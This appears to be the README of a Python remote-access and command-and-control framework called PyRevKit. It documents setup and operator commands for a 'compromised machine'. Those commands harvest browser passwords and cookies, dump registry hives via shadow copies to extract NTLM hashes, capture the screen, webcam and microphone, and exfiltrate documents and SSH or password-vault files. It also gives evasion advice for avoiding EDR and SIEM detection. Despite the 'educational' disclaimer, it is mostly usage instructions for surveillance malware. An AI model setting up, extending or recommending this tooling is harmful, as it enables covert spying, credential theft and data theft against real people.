

# PyRevKit

[](https://www.python.org/downloads/)
[](https://opensource.org/licenses/MIT)
[](https://github.com/yourusername/pyrevkit)

[](https://websockets.readthedocs.io/)
[](https://en.wikipedia.org/wiki/Transport_Layer_Security)
[](https://en.wikipedia.org/wiki/PBKDF2)

[](https://github.com/yourusername/pyrevkit#-features)
[](https://docs.python.org/3/library/asyncio.html)
[](https://github.com/yourusername/pyrevkit)

**⚠️ Educational Purpose Only** - This tool is designed for authorized security testing and educational purposes. Use responsibly and only on systems you own or have explicit permission to test.

**🎓 Research & Education** | **🔐 Security Testing** | **🛡️ Red Team Operations** | **📚 Learning Tool**

---

A powerful, feature-rich C2 framework with encrypted WebSocket communication, advanced credential harvesting, browser data extraction with decryption, desktop surveillance, VSS-based file access, and comprehensive reconnaissance capabilities.

## 🎯 Features

### Core Features
- **Secure Communication**: TLS/SSL encrypted WebSocket connections
- **Authentication**: PBKDF2-SHA256 hashed credentials with salting
- **File Transfer**: Bidirectional file upload/download with base64 encoding
- **Auto-Reconnection**: Exponential backoff retry mechanism
- **Persistent Targets**: Targets remain connected between operator sessions
- **Multi-Session Support**: Multiple operators can connect sequentially
- **Safe Execution**: Command timeout protection (30s default)

### Desktop Surveillance
- **Screenshot Capture**: Full-resolution desktop screenshots
- **Live Desktop Streaming**: Real-time monitoring at ~5 FPS with concurrent command execution
- **Webcam Capture**: Target webcam photo capture
- **Audio Recording**: Microphone recording (1-300 seconds)

### Browser Data Extraction with VSS
- **History, Cookies, Bookmarks, Downloads**: Extract from Chrome, Edge, Firefox
- **Automatic Cookie Decryption**: v10/v11/DPAPI decryption (seamless integration)
- **VSS Integration**: Bypasses locked databases when browser is running
- **Smart Fallback**: Direct copy → VSS fallback → automatic cleanup

### Advanced Credential Harvesting
- **Browser Password Decryption**: Edge/Chrome v10/v11 with v20 detection
- **Registry Dump via VSS**: SAM/SYSTEM/SECURITY hives for offline hash extraction
- **WiFi Credentials**: Saved wireless network passwords
- **Windows Mail Export via VSS**: Complete email database extraction
- **Application Credentials**: FileZilla, PuTTY, WinSCP enumeration

### Smart File Operations
- **Pattern-Based Exfiltration**: Documents, credentials, source code, custom patterns
- **VSS File Access**: Access locked files via shadow copies
- **Directory Listing**: Recursive file system exploration
- **File Search**: Name and content-based searching

### System Reconnaissance
- **Enhanced System Info**: 10+ categories including uptime, privileges, users, groups, ports, security software, processes, domain info, VM detection, scheduled tasks
- **Clipboard Access**: Read and write clipboard content
- **Background Monitoring**: Autonomous clipboard history tracking

## 📋 Table of Contents

- [Installation](#-installation)
- [Quick Start](#-quick-start)
- [Architecture](#-architecture)
- [Usage](#-usage)
  - [Desktop Surveillance](#desktop-surveillance)
  - [Browser Data Extraction](#browser-data-extraction)
  - [Credential Harvesting](#credential-harvesting)
  - [File Operations](#file-operations)
  - [System Reconnaissance](#system-reconnaissance)
- [VSS Integration](#-vss-integration)
- [Cookie Decryption & v20 Limitations](#-cookie-decryption--v20-limitations)
- [Examples](#-examples)
- [Troubleshooting](#-troubleshooting)
- [License](#-license)

## 🚀 Installation

### Requirements by Component

#### **Server (C2 Server)**
```bash
pip install websockets

# Generate SSL certificate
openssl req -x509 -newkey rsa:4096 -nodes \
  -out server.pem -keyout server.pem -days 365
```

#### **Client (Operator Console)**
```bash
pip install websockets
```

#### **Target (Compromised Machine)**

**Core (Required):**
```bash
pip install websockets
```

**Optional (Enhanced Features):**
```bash
# Browser cookie/password decryption (v10/v11)
pip install pycryptodome pywin32

# Screenshots & desktop streaming
pip install mss pillow

# Media capture
pip install opencv-python sounddevice scipy numpy

# Clipboard access
pip install pyperclip
```

### Dependency Matrix

| Feature | Required Libraries | Notes |
|---------|-------------------|-------|
| **Core C2** | websockets | All components |
| **Screenshots/Streaming** | mss, pillow | Target only |
| **Cookie/Password Decryption** | pycryptodome, pywin32 | Target only, v10/v11 support |
| **Webcam** | opencv-python | Target only |
| **Audio Recording** | sounddevice, scipy, numpy | Target only |
| **Clipboard** | pyperclip | Target only, GUI required |

**Key Points:**
- ✅ VSS features require **Administrator privileges** on target
- ✅ v20 cookie decryption is **not possible** (documented below)
- ✅ Most features work with just `websockets` installed

## ⚡ Quick Start

### 1. Setup Credentials
```bash
# Add operator credentials
python pyrev_server.py -creds operator admin SecurePassword123!

# Add target credentials
python pyrev_server.py -creds target machineA TargetPassword456!
```

### 2. Start the Server
```bash
python pyrev_server.py
```

### 3. Connect a Target
```bash
python pyrev_target.py
```

### 4. Connect as Operator
```bash
python pyrev_client.py
```

### 5. Start Using
```bash
>>> targets
1. DESKTOP-ABC123 (192.168.1.100) - Windows 10

>>> connect 1
>>> sysinfo
>>> browser cookies --save
>>> screenshot
```

## 🏗️ Architecture

```
┌─────────────────┐
│  Operator(s)    │ ◄─── TLS/WSS ───┐
│  (Client)       │                  │
└─────────────────┘                  │
                                     │
         ┌──────────────────────────▼┐
         │    C2 Server               │
         │  - Message Routing         │
         │  - Authentication          │
         │  - Target Management       │
         └──────────────────────────┬─┘
                                    │
                           TLS/WSS  │
                                    │
         ┌──────────────────────────▼┐
         │    Target(s)               │
         │  - Command Execution       │
         │  - VSS Operations          │
         │  - Browser Extraction      │
         │  - Credential Harvesting   │
         └────────────────────────────┘
```

## 💻 Usage

### Desktop Surveillance

```bash
# Screenshot
screenshot                    # Capture single screenshot → loot/target_screenshot_TIMESTAMP.png

# Desktop Streaming (concurrent commands supported)
stream_start                 # Start live desktop stream (~5 FPS)
stream_stop                  # Stop stream → loot/target_stream_frame_N.jpg

# Webcam
webcam                       # Capture webcam photo → loot/target_webcam_TIMESTAMP.jpg

# Audio
record 30                    # Record 30 seconds of audio → downloads/audio_TIMESTAMP.wav
```

### Browser Data Extraction

```bash
# History
browser history              # Show first 50 entries
browser history --save       # Save all to file → downloads/browser_history_TIMESTAMP.txt

# Cookies (automatic v10/v11 decryption, VSS if locked)
browser cookies              # Show first 50 cookies with decryption attempt
browser cookies --save       # Save ALL cookies with decryption
                            # → downloads/browser_cookies_TIMESTAMP.txt
                            # ✅ No LIMIT - saves everything
                            # ✅ Automatic decryption integrated
                            # ✅ Uses VSS if database locked
                            # ❌ v20 shows as [v20 App-Bound]

# Bookmarks
browser bookmarks            # Show first 50 bookmarks
browser bookmarks --save     # Save all to file

# Downloads
browser downloads            # Show first 50 downloads
browser downloads --save     # Save all to file
```

**VSS Behavior for Browser Data:**
1. Attempts direct copy of database
2. If locked (browser running) → Creates VSS snapshot
3. Accesses database from shadow copy
4. Extracts and decrypts data
5. Automatic cleanup (deletes shadow)

### Credential Harvesting

```bash
# Browser Passwords (with v10/v11/v20 detection)
creds edge_decrypt           # Decrypt Edge passwords
                            # ✅ v10/v11: Shows decrypted passwords
                            # ❌ v20: Shows [v20 App-Bound] + export instructions

creds chrome_decrypt         # Decrypt Chrome passwords

# Registry Dump via VSS (requires Admin)
creds registry_dump_vss      # Dump SAM/SYSTEM/SECURITY hives via VSS
                            # → downloads/registry_dump_TIMESTAMP.zip
                            #
                            # Extract offline with:
                            # secretsdump.py -sam SAM -system SYSTEM -security SECURITY LOCAL

# WiFi Credentials
creds wifi                   # Dump saved WiFi passwords

# Credential Enumeration
creds browsers               # List browser credential locations
creds applications           # FTP, SSH, database credentials
```

**VSS Registry Dump Workflow:**
1. Creates VSS snapshot of system drive
2. Copies registry hives from shadow:
   - `C:\Windows\System32\config\SAM`
   - `C:\Windows\System32\config\SYSTEM`
   - `C:\Windows\System32\config\SECURITY`
3. Creates ZIP archive
4. Automatic cleanup

### Windows Mail Export

```bash
msg windows_mail_export      # Export Windows Mail database via VSS
                            # → downloads/windows_mail_export_TIMESTAMP.zip
                            # ✅ Uses VSS to bypass locks
                            # ✅ Works with Mail app running
                            #
                            # To read exported data:
                            # 1. Download ESEDatabaseView (nirsoft.net)
                            # 2. Extract ZIP
                            # 3. Open store.vol with ESEDatabaseView
                            # 4. Browse tables: Message, Folder, Contact
```

### File Operations

```bash
# Smart Exfiltration
exfil documents              # Find and exfil documents (docx, pdf, xlsx, etc.)
exfil credentials            # Find credential files (kdbx, json, pem, etc.)
exfil code                   # Find source code files
exfil custom *.log           # Custom pattern search

# File Transfer
download <filename>          # Download from target's downloads/
upload <filename>            # Upload from payloads/ to target
ls_downloads                 # List available downloads

# Directory Operations
ls <path>                    # List directory contents
pwd                          # Show current directory
cd <path>                    # Change directory

# File Search
search *.pdf --limit 100     # Search by filename pattern
search --content "password"  # Search file contents
```

### System Reconnaissance

```bash
# System Information
sysinfo                      # Comprehensive system info:
                            # - OS, architecture, uptime
                            # - Admin/root status
                            # - All users & groups
                            # - Listening ports
                            # - Security software (AV/Firewall/UAC)
                            # - Running processes
                            # - Installed software
                            # - Domain information
                            # - VM detection
                            # - Scheduled tasks

# Clipboard
clipboard                    # Read clipboard content
clipboard_write "text"       # Write to clipboard
clipboard_monitor start      # Background monitoring
clipboard_monitor status     # Check monitoring status
clipboard_monitor stop       # Stop monitoring
clipboard_history            # View captured history

# Shell Commands
<command>                    # Execute any shell command
```

## 🛡️ VSS Integration

PyRevKit uses **Volume Shadow Copy Service (VSS)** to bypass file locks and access in-use databases/files.

### VSS-Enabled Features

| Feature | Command | When VSS is Used |
|---------|---------|------------------|
| **Browser Cookies** | `browser cookies [--save]` | Database locked (browser running) |
| **Windows Mail** | `msg windows_mail_export` | Mail app is running |
| **Registry Dump** | `creds registry_dump_vss` | Always (to bypass locks) |

### How VSS Works

**Technical Implementation:**
- **Method**: PowerShell WMI (`Win32_ShadowCopy`)
- **Platform**: Windows 10/11
- **Requirements**: Administrator privileges
- **Cleanup**: Automatic (no traces left)

**Workflow:**
```
1. Create VSS snapshot: PowerShell WMI Win32_ShadowCopy.Create()
2. Parse shadow path: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyN
3. Create symbolic link: mklink /D
4. Copy files from shadow
5. Extract data
6. Cleanup: Delete shadow + symlink
```

### OPSEC Considerations

**✅ Benefits:**
- Bypasses file locks (works with apps running)
- Looks like legitimate backup operation
- No direct process interaction needed

**⚠️ Detection Risks:**
- VSS operations logged in Windows Event Logs (Event ID 8222, 8224)
- EDR/AV may monitor VSS API calls
- SIEM may alert on unusual VSS patterns
- Requires Admin privileges (elevation may be logged)

**Recommendations:**
- Use VSS features strategically (not excessively)
- Time operations during business hours/high activity
- Monitor target's security posture before use
- Consider alternative methods when stealth is critical

## 🍪 Cookie Decryption & v20 Limitations

### Encryption Version Support

| Version | Encryption Method | Decryption Support | Status |
|---------|------------------|-------------------|--------|
| **v10** | AES-256-GCM | ✅ **Full Support** | Uses master key from Local State |
| **v11** | AES-256-GCM | ✅ **Full Support** | Same as v10 |
| **v20** | App-Bound Encryption | ❌ **Cannot Decrypt** | Service-managed, hardware-backed |
| **DPAPI** | Windows DPAPI | ✅ **Full Support** | Legacy encryption |
| **Plaintext** | None | ✅ **Direct Read** | Some cookies stored unencrypted |

### Understanding v20 App-Bound Encryption

**What is v20?**
- Introduced in Edge 119+ and Chrome 127+
- Uses Windows App-Bound Encryption service
- Keys are hardware-backed and service-managed
- **Cannot be extracted programmatically**

**Why Can't We Decrypt v20?**
```
Browser GUI (works):
├── Reads encrypted_value from database
├── Calls Windows App-Bound Service
├── Service decrypts with hardware key
└── Shows: "decrypted_cookie_value"

PyRevKit (fails):
├── Reads encrypted_value from database
├── Tries to decrypt with master key
└── FAILS: v20 requires privileged service
```

**Detection in Output:**
```
1. .google.com - SID
   Value: [v20 App-Bound]
   Expires: 13450064202354117
```

### Workarounds for v20 Cookies

Since v20 cannot be decrypted, use these alternatives:

**Option 1: Browser DevTools**
```
1. Open Edge/Chrome → F12 (DevTools)
2. Application tab → Cookies
3. Right-click → Export as JSON/cURL
```

**Option 2: Browser Extensions**
```
Install: EditThisCookie or Cookie-Editor
- Export → JSON format
- Cookies exported decrypted
```

**Option 3: JavaScript Console**
```javascript
// F12 → Console
document.cookie.split(';').forEach(c => console.log(c.trim()));
```

**Option 4: Older Browser Versions**
- Edge < 119 or Chrome < 127
- Still use v10/v11 (can be decrypted)

### Automatic Decryption Behavior

Cookie decryption is **seamlessly integrated** - no flags needed:

```bash
browser cookies              # Automatic decryption attempt
browser cookies --save       # Automatic decryption + save all
```

**What Happens:**
1. ✅ **Plaintext cookies** → Shown as-is
2. ✅ **v10/v11 encrypted** → Decrypted and shown
3. ✅ **DPAPI encrypted** → Decrypted and shown
4. ❌ **v20 encrypted** → Shows `[v20 App-Bound]`

**Requirements:**
```bash
pip install pycryptodome pywin32
```

## 📊 Examples

### Example 1: Complete Cookie Extraction

```bash
>>> connect 1

# Extract and save all cookies (automatic decryption)
>>> browser cookies --save

# Output:
═══ EDGE ═══
Entries Found: 50 (showing first 50)

Filename: browser_cookies_20260405_232500.txt
Total Entries: 537    # All cookies, not limited to 100
Size: 256.72 KB

# Download
>>> download browser_cookies_20260405_232500.txt

# File contains:
# - v10/v11 cookies: Decrypted values
# - v20 cookies: [v20 App-Bound]
# - Plaintext cookies: Original values
```

### Example 2: Registry Credential Dump

```bash
>>> creds registry_dump_vss

# Output:
╔════════════════════════════════════════════════════╗
║  REGISTRY HIVES DUMPED VIA VSS                     ║
╚════════════════════════════════════════════════════╝

Method: Volume Shadow Copy (VSS)
Hives Dumped: SAM, SYSTEM, SECURITY
Total Hives: 3/3

Filename: registry_dump_20260405_193045.zip
ZIP Size: 8.12 MB

>>> download registry_dump_20260405_193045.zip

# On attacker machine:
$ unzip registry_dump_20260405_193045.zip
$ secretsdump.py -sam SAM -system SYSTEM -security SECURITY LOCAL

# Output: NTLM hashes
Administrator:500:aad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
User1:1001:aad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
```

### Example 3: Desktop Surveillance

```bash
# Start streaming (concurrent commands work)
>>> stream_start
[*] Desktop stream started

# Continue working while streaming
>>> sysinfo
[output shown normally]

>>> browser history
[output shown normally]

# Frames save automatically
[STREAM] Frame 10 (74.7 KB) → loot\target_stream_frame_10.jpg
[STREAM] Frame 20 (76.2 KB) → loot\target_stream_frame_20.jpg

>>> stream_stop
[*] Desktop stream stopped
```

### Example 4: Smart File Exfiltration

```bash
# Find credential files
>>> exfil credentials

# Output:
Found 3 credential files:
1. C:\Users\User\Documents\passwords.kdbx (2.1 MB)
2. C:\Users\User\.ssh\id_rsa (1.7 KB)
3. C:\Users\User\AppData\Roaming\FileZilla\sitemanager.xml (4.3 KB)

Saved to: downloads/exfil_credentials_20260405_194500.zip
```

## 🐛 Troubleshooting

### VSS Issues

**Problem**: "VSS creation failed"
- **Cause**: Not running as Administrator
- **Fix**: Ensure target has admin privileges

**Problem**: "Database locked" (browser data)
- **Cause**: Browser running but VSS failed
- **Fix**: Check VSS service is enabled: `net start vss`

### Cookie Decryption Issues

**Problem**: "Cannot decrypt v20 cookies"
- **Not a bug**: v20 App-Bound encryption cannot be bypassed
- **Workaround**: Use browser export methods (see v20 section)

**Problem**: "Missing libraries (pycryptodome, pywin32)"
- **Fix**: `pip install pycryptodome pywin32`
- **Impact**: Cookies show `[Encrypted]` instead of decrypted

**Problem**: All cookies show "[v20 App-Bound]"
- **Expected**: Modern Edge/Chrome use v20 encryption
- **Solution**: Use browser extensions or DevTools export

### Desktop Streaming Issues

**Problem**: Stream frames not showing/saving
- **Fix**: Ensure `mss pillow` installed: `pip install mss pillow`
- **Check**: Verify `loot/` directory exists

**Problem**: "Cannot run commands while streaming"
- **Not a bug**: Concurrent commands are supported
- **Check**: Update to latest version

### File Download Issues

**Problem**: "File too large"
- **Fix**: Files >10MB rejected. Compress: `tar -czf archive.tar.gz files/`

**Problem**: "File not found"
- **Fix**: Verify file exists on target: `ls /path/to/file`

### General Issues

**Problem**: Connection timeouts
- **Check**: Firewall rules allow port 8765
- **Check**: SSL certificate matches server IP
- **Fix**: Regenerate certificate with correct IP

**Problem**: Authentication failed
- **Fix**: Verify credentials in `credentials.json`
- **Reset**: `python pyrev_server.py -creds operator admin newpass`

## 📄 License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## ⚖️ Legal Disclaimer

This tool is provided for educational and authorized security testing purposes only. Unauthorized access to computer systems is illegal. The authors assume no liability and are not responsible for any misuse or damage caused by this program. Use responsibly and only on systems you own or have explicit permission to test.

## 📚 Additional Resources

### Documentation
- [CREDENTIAL_HARVESTING.md](CREDENTIAL_HARVESTING.md) - Complete credential harvesting guide
- [SYSINFO_ENHANCED.md](SYSINFO_ENHANCED.md) - Enhanced system information guide
- [MEDIA_CAPTURE.md](MEDIA_CAPTURE.md) - Webcam and audio features
- [QUICKREF.md](QUICKREF.md) - Quick reference guide

### External Tools
- [Impacket secretsdump](https://github.com/fortra/impacket) - Registry hash extraction
- [ESEDatabaseView](https://www.nirsoft.net/utils/ese_database_view.html) - Windows Mail database viewer

### Protocol Specifications
- [PBKDF2 Specification](https://tools.ietf.org/html/rfc2898)
- [WebSocket Protocol](https://tools.ietf.org/html/rfc6455)
- [TLS Best Practices](https://wiki.mozilla.org/Security/Server_Side_TLS)

## 🎯 Complete Feature Matrix

| Feature | Dependencies | Windows | Linux | macOS | Notes |
|---------|-------------|---------|-------|-------|-------|
| **Core Features** |
| Shell Commands | None | ✅ | ✅ | ✅ | - |
| File Transfer | None | ✅ | ✅ | ✅ | - |
| Authentication | None | ✅ | ✅ | ✅ | - |
| **Desktop Surveillance** |
| Screenshot | mss, pillow | ✅ | ✅ | ✅ | - |
| Desktop Streaming | mss, pillow | ✅ | ✅ | ✅ | Concurrent commands |
| Webcam | opencv-python | ✅ | ✅* | ✅* | *Permissions required |
| Audio Recording | sounddevice, scipy, numpy | ✅ | ✅* | ✅* | *Permissions required |
| **Browser Extraction** |
| History/Bookmarks/Downloads | None | ✅ | ✅ | ✅ | - |
| Cookies with Decryption | pycryptodome, pywin32 | ✅ | ✅ | ✅ | v20 limitation |
| VSS Fallback | Admin rights | ✅ | ❌ | ❌ | Windows only |
| **Credential Harvesting** |
| Browser Passwords | pycryptodome, pywin32 | ✅ | ✅ | ✅ | v20 limitation |
| Registry Dump via VSS | Admin rights | ✅ | ❌ | ❌ | Windows only |
| WiFi Passwords | None | ✅ | ✅ | ❌ | - |
| Windows Mail Export | Admin rights | ✅ | ❌ | ❌ | VSS required |
| Application Creds | None | ✅ | ✅ | ✅ | Enumeration only |
| **File Operations** |
| Smart Exfiltration | None | ✅ | ✅ | ✅ | - |
| File Search | None | ✅ | ✅ | ✅ | - |
| **Reconnaissance** |
| Enhanced Sysinfo | None | ✅ | ✅ | ✅ | - |
| Clipboard | pyperclip | ✅ | ✅** | ✅ | **GUI required |

## 🙏 Acknowledgments

- Built with Python's `asyncio` and `websockets` libraries
- VSS integration inspired by offensive security research
- Cookie decryption research from browser security community
- Thanks to the security research community

---

**⭐ If you find this project useful, please consider giving it a star!**

**📧 Contact**: your.email@example.com  
**🐛 Issues**: [GitHub Issues](https://github.com/yourusername/pyrevkit/issues)  
**💬 Discussions**: [GitHub Discussions](https://github.com/yourusername/pyrevkit/discussions)

---

**Version**: 0.5 (Beta)
**Last Updated**: 2026-04-06
